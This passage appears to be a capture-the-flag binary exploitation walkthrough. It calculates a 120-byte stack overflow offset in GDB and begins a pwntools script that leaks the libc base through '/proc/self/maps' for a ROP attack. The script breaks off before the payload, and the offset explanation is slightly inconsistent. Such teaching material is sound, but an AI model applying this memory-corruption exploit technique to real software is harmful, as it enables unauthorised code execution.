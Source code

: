 ### Calclulating the offset
Now that we can leak the base of libc. We will proceed by finding the offset reuquired to overwrite the return address. This time we will run the program with normal input and calculate the offset required. We will do this using GDB. 

Let's first set a breakpoint
```
brva 0x126b
```

![Calculating Offset](calculating_offset.png)
To overwrite the saved return RIP we must know how many bytes from the start of the user-controlled buffer reach the saved `rbp` and then the return address at `[rbp + 8]`. From the stack dump in the image we count the 8-byte rows between the buffer start and the saved `rbp`. There are 15 rows of 8 bytes each before the saved `rbp`, so:
```
offset to saved RBP = 15 * 8 = 120 bytes
```

The saved return address sits immediately after saved `rbp` (at `[rbp + 8]`), so writing 120 bytes of padding will overwrite `saved RBP`. To overwrite the return address itself you need to write an additional 8 bytes (the saved RBP slot) and then start your RIP overwrite.

### Obtaining code execution
We now have everything needed to automate the exploit with pwntools: a reliable libc leak and a precise overflow offset, so we can build and deliver a ROP payload to gain code execution.

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
brva 0x126b
'''.format(**locals())



# Set up pwntools for the correct architecture
exe = './reader_patched'
libc = ELF("./libc.so.6")
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

io.sendlineafter('read:', b'/proc/self/maps')

offset = 120

libc.address = int(io.recvline_contains('libc.so.6').split(b'-')[0], 16)
```